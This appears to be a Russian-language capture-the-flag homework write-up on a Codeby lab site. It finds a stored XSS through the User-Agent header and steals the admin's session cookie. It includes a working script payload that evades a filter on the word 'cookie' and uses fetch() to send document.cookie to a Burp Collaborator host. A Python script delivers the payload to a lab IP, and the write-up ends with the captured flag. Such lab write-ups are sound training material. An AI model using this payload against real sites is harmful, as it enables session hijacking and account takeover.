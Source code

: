 # Forbidden_Code_HW

## Разведка на предмет XSS
При входе на сайт видем форму входа, а так же возможность зарегестрироваться. Создаём аккаунт с произвольными паролем и логином

![](https://github.com/Ezhidze25/Forbidden_Code_HW/assets/57564074/c6f1688f-21af-417f-84f7-aa1078916318)

На странице аккаунта можно увидеть, что ведётся логирование неудачных попыток входа в профиль. Попробуем проверить сайт на наличие XSS уязвимости, путём
указания в качестве User-Agent пейлоад `<script>alert(0)</script>`

![изображение](https://github.com/Ezhidze25/Forbidden_Code_HW/assets/57564074/c5f378e0-f722-4deb-9907-7c0f36b820c5)

Уязвимость XSS действительно присутствует, получаем результат:

![изображение](https://github.com/Ezhidze25/Forbidden_Code_HW/assets/57564074/545f0980-f419-4afd-a1ba-bf77c1ee4f29)

## Эксплуатация XSS уязвимости с помощью BurpSuite инструмента Collaborator

Для кражи файлов cookie, необходимо украсть значение `document.cookie`. При попытке вывести значение напрямую с помощью `alert(document.cookie)` сталкиваемся с тем,
что на сервере установлена фильтрация на слово 'cookie'

![изображение](https://github.com/Ezhidze25/Forbidden_Code_HW/assets/57564074/8d25f0a8-4bc8-4879-808d-7256e03fc6b4)

Обходим фильтрацию путём разбиения слова cookie на две части одного массива. А так же поднимаем сервер с помощью инструмента collaborator в Burpsuite

![изображение](https://github.com/Ezhidze25/Forbidden_Code_HW/assets/57564074/96e0ed20-05a1-4030-97c7-8948a6186961)

Скрипт для отправки запроса на python.
```python
import requests

payload = '<script>const vv = ["coo", "kie"].join(""); var payload = `https://urp3un99hbcf34xlr31cxw4h78dz1qpf.oastify.com/?${vv}=` + document[vv]; fetch(payload);</script>'
#vv - массив, состоящий из элементов "coo" и "kie" для обхода фильтрации
user = "admin" # ставим admin так как именно его cookie крадём
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
```
После отправки запроса переходим в BurpSuite, видим сохранённые cookie админ-сессии

![изображение](https://github.com/Ezhidze25/Forbidden_Code_HW/assets/57564074/2536c715-2e4a-4784-8a96-a4b252c8f421)

Подставляем их в качестве своих значений:

![изображение](https://github.com/Ezhidze25/Forbidden_Code_HW/assets/57564074/213e2ab8-c41e-4549-b6fd-8bc404e7da9c)

Результат:

![изображение](https://github.com/Ezhidze25/Forbidden_Code_HW/assets/57564074/7e7b4c4c-642e-423d-9c5f-a7f1f5c5837f)

Получаем флаг: ***CODEBY{m1ss_th3_cl13nt_att4cks?}***
